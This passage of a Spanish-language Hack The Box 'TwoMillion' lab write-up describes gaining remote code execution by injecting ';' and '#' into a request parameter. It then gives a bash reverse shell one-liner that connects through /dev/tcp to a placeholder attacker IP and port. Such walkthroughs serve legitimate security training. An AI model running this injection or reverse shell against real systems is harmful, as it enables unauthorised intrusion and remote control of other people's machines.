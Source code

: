 ![](/assets/img/HTB_TwoMillion/TM20.png)

Ahora tendremos que ver una forma de escapar comandos, por lo que podemos intentar poner un ";" y un "#" al final del parametro, esto debido a que el ";" creara una escapada de comando, y el "#" a comentar el resto de la peticion:

![](/assets/img/HTB_TwoMillion/TM21.png)

Como podemos ver, ahora tenemos ejecucion remota de comandos (RCE), por lo que queda ganar acceso a la maquina.

No olvidemos la reverse shell basica en **bash**:

```bash
bash -c 'bash -i >&/dev/tcp/<TU IP>/<TU PUERTO> 0>&1'
```
![](/assets/img/HTB_TwoMillion/TM22.png)
